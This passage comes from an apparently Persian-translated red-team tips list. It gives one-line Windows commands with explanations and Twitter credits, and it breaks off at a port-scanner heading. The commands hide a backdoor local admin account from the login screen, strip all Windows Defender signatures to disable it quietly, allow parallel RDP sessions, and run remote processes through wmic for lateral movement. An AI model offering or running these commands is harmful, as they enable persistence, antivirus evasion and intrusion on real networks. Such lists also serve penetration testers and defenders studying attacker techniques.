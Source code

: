 *پنهان کردن حساب ادمین محلی*<br>

```bash
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /t REG_DWORD /v alh4zr3d /d 0 /f
```

**توضیح:** *«ایجاد حساب کاربری هنگام فرار از دید تیم آبی ریسک دارد، اما اگر نیاز به ساخت یک ادمین محلی دارید، با کمی جادوی رجیستری می‌توانید آن را پنهان کنید.»*<br>
**اعتبار:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)<br>
**لینک:** [Twitter](https://twitter.com/Alh4zr3d/status/1612913838999113728)<br>


### [🔙](#tool-list)Cripple windows defender by deleting signatures

*از کار انداختن Windows Defender با حذف امضاها*<br>

```bash
"%Program Files%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

**توضیح:** *«اگر Windows Defender برایتان دردسرساز است، به جای غیرفعال کردن کاملش (که باعث هشدار می‌شود)، می‌توانید با حذف امضاها آن را بی‌اثر کنید.»*<br>
**اعتبار:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)<br>
**لینک:** [Twitter](https://twitter.com/Alh4zr3d/status/1611005101262389250)<br>


### [🔙](#tool-list)Enable multiple RDP sessions per user

*فعال کردن چند نشست RDP برای هر کاربر*<br>

```bash
reg add HKLM\System\CurrentControlSet\Control\TerminalServer /v fSingleSessionPerUser /d 0 /f
```

**توضیح:** *«گاهی می‌خواهید با RDP وارد یک سیستم شوید اما کاربر شما قبلاً جلسه فعال دارد. با این تنظیم می‌توانید چند نشست همزمان برای یک کاربر فعال کنید.»*<br>
**اعتبار:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)<br>
**لینک:** [Twitter](https://twitter.com/Alh4zr3d/status/1609954528425558016)<br>


### [🔙](#tool-list)Sysinternals PsExec.exe local alternative

*جایگزین محلی برای PsExec.exe از Sysinternals*<br>

```bash
wmic.exe /node:10.1.1.1 /user:username /password:pass process call create cmd.exe /c " command "
```

**توضیح:** *«خسته شده‌اید از اینکه باید PsExec.exe را برای جابجایی جانبی آپلود کنید؟ ویندوز یک جایگزین داخلی و آماده دارد.»*<br>
**اعتبار:** [@GuhnooPlusLinux](https://twitter.com/GuhnooPlusLinux)<br>
**لینک:** [Twitter](https://twitter.com/GuhnooPlusLinux/status/1607473627922063360)<br>


### [🔙](#tool-list)Live off the land port scanner
